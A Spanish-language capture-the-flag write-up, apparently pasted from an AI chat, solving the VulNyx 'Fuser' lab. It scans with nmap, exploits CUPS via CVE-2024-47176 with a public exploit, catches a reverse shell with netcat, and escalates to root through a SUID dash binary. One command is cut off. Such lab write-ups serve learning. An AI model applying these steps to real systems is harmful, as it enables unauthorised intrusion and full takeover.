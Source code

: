 # 🔍 Write-Up: VulnHub Basic - FUSER

![image](https://github.com/user-attachments/assets/488b1a00-b823-422f-a13c-2bd8304711da)


Aquí tienes el archivo `README.md` para la máquina **Fuser** de VulNyx, basado en el writeup que proporcionaste. Este archivo está listo para copiar y pegar en tu repositorio de GitHub:

```markdown
# Máquina Fuser - VulNyx (Dificultad: Low)

## Descripción
Fuser es una máquina de la plataforma VulNyx con un nivel de dificultad **Low**. En este laboratorio, se explora una vulnerabilidad en el servicio **CUPS (Common UNIX Printing System)** y se realiza una escalada de privilegios aprovechando un binario con el bit SUID activado. El objetivo es obtener acceso root a la máquina y encontrar la flag.

## Resumen de conceptos trabajados
- Escaneo de puertos con Nmap.
- Explotación de una vulnerabilidad en CUPS (CVE-2024-47176).
- Escalada de privilegios mediante un binario SUID (Dash).

---

## Pasos para la resolución

### **1. Conexión y verificación**
- Descargar la máquina Fuser de VulNyx y configurarla en VirtualBox o VMware con **Red NAT**.
- Verificar la conexión con la máquina víctima:
  ```bash
  sudo arp-scan -I eth0 --localnet
  ping -c 1 10.0.2.5 -R
  ```
  El TTL de 64 indica que es una máquina Linux.

---

### **2. Escaneo de puertos**
- Realizar un escaneo de puertos con Nmap:
  ```bash
  sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.0.2.5 -oG Escaneo
  ```
  Se detectan los puertos **22 (SSH)**, **80 (HTTP)** y **631 (IPP/CUPS)** abiertos.

- Escanear versiones de los servicios:
  ```bash
  nmap -sCV -p22,80,631 10.0.2.5
  ```
  Se identifica que el servicio **CUPS** está en la versión **2.3.3op2**.

---

### **3. Análisis del servicio CUPS**
- Acceder al panel de CUPS desde el navegador:
  ```
  http://10.0.2.5:631
  ```
  Se observa un panel de gestión de impresoras.

- Investigar la sección `/printers`, donde se encuentra un nombre de usuario (**Konika Minolta**) y una lista de impresoras.

- Buscar vulnerabilidades en CUPS 2.3.3:
  ```bash
  searchsploit CUPS 2.3.3
  ```
  No se encuentran exploits públicos, pero se identifican CVEs relacionados:
  - **CVE-2024-47176**: Vulnerabilidad en `cups-browsed`.
  - **CVE-2024-47076**: Vulnerabilidad en `libcupsfilters`.
  - **CVE-2024-47175**: Vulnerabilidad en `libppd`.
  - **CVE-2024-47177**: Vulnerabilidad en `cups-filters`.

---

### **4. Explotación de CUPS**
- Clonar el repositorio del exploit de ippsec:
  ```bash
  git clone https://github.com/ippsec/cups-exploit.git
  cd cups-exploit
  ```
- Ejecutar el exploit:
  ```bash
  python3 exploit.py 10.


#### **Creación de una impresora maliciosa**
- El exploit de ippsec automatiza la creación de una impresora maliciosa en el servicio CUPS. Al ejecutar el exploit, se crea una impresora llamada **HACKED_10_0_2_4**.
  ```bash
  python3 exploit.py 10.0.2.5
  ```

#### **Activación del exploit**
- Acceder al panel de CUPS desde el navegador:
  ```
  http://10.0.2.5:631
  ```
- Navegar a la sección de impresoras y seleccionar la impresora **HACKED_10_0_2_4**.
- Hacer clic en **"Imprimir página de prueba"** para activar el exploit.

#### **Obtención de la shell inversa**
- Al hacer clic en "Imprimir página de prueba", el código malicioso se ejecuta y se abre una **shell inversa** en la máquina atacante.
- Verificar la conexión en la máquina atacante:
  ```bash
  nc -nlvp 4444
  ```
  Se obtiene una shell en la máquina víctima.

---

### **5. Tratamiento de la TTY**
- Una vez dentro de la máquina víctima, es recomendable mejorar la shell para hacerla más interactiva:
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```
  Esto permite usar comandos como `clear`, `su`, y autocompletar con `Tab`.

---

### **6. Escalada de privilegios**

#### **Búsqueda de binarios SUID**
- Buscar binarios con el bit SUID activado:
  ```bash
  find / -perm -4000 2>/dev/null
  ```
  Se identifica que el binario **`dash`** tiene el bit SUID activado.

#### **Explotación del binario SUID**
- El binario `dash` con el bit SUID permite escalar privilegios ejecutándolo con la opción `-p`:
  ```bash
  /usr/bin/dash -p
  ```
  Esto otorga una shell con privilegios de **root**.

---

### **7. Obtención de la flag**
- Una vez como root, buscar la flag en el directorio `/root`:
  ```bash
  cd /root
  cat root.txt
  ```

---

## Resumen
Para resolver la máquina Fuser:
1. Se realizó un escaneo de puertos, identificando los servicios SSH, HTTP y CUPS.
2. Se explotó una vulnerabilidad en CUPS (CVE-2024-47176) utilizando un exploit automatizado de ippsec, lo que permitió obtener una shell inversa.
3. Se escalaron privilegios aprovechando un binario SUID (`dash`).
4. Finalmente, se localizó la flag en el directorio `/root`.

Este laboratorio demuestra cómo una configuración insegura en servicios como CUPS y binarios SUID puede permitir el control total de un sistema.

---

## Herramientas utilizadas
- **Nmap**: Para escaneo de puertos y detección de servicios.
- **Searchsploit**: Para buscar vulnerabilidades conocidas.
- **Exploit de ippsec**: Para explotar la vulnerabilidad en CUPS.
- **Dash**: Para escalada de privilegios mediante binario SUID.

---




  
